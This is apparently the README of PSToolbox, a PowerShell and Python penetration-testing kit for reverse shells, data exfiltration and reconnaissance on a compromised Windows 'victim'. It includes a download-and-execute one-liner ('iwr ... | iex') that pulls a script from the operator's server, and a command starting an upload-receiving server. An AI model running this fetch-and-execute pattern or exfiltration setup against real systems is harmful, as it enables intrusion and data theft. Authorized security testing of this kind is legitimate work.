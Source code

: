 # PSToolbox

PSToolbox is a collection of utilities designed for security operations, including network reconnaissance, reverse shell establishment, data exfiltration, and system analysis. This toolkit facilitates interactions with a python web server. It makes performing various other essential tasks in penetration testing and cybersecurity assessments easier once a foothold is established on a Windows machine.
Getting Started:

These instructions will guide you through setting up and using the PSToolbox on your local machine for development and testing purposes.

Prerequisites:

    Git
    Python 3
    Access to a PowerShell environment (for the victim machine simulation)

Installation:
Begin by cloning the PSToolbox repository to your local machine:

    gh repo clone jeamajoal/PSToolbox

# Prepare the Loadables Directory:

Add any required files to the 'loadables' directory
Navigate to the cloned repository and ensure the loadables directory contains all necessary tools and scripts you intend to serve.

# Start the Web Server

Run the provided Python web server script, postserver.py, to serve the content of the loadables directory.

    python3 python/postserver.py -b 0.0.0.0 -p 8443 -u ~/uploads
***NOTE:  The uploads dir is being set OUTSIDE of the loadables folder.  This will make your Get-TollboxItems (gti) run more efficiently later if you so choose to use it. Otherwise if you are ok waiting you can keep it in your loadables folder. 

# Usage

To use the toolbox from a victim machine (simulated environment), run the following PowerShell command. This command utilizes Invoke-WebRequest (alias iwr) to source the GetToolbox.ps1 script from the web server:

powershell

	iwr http://<YourServerIP>:<Port>/GetToolbox.ps1 -UseBasic | iex

You will be prompted for your ip and the web server port.


This project is licensed under the MIT License - see the LICENSE.md file for details.
Acknowledgments
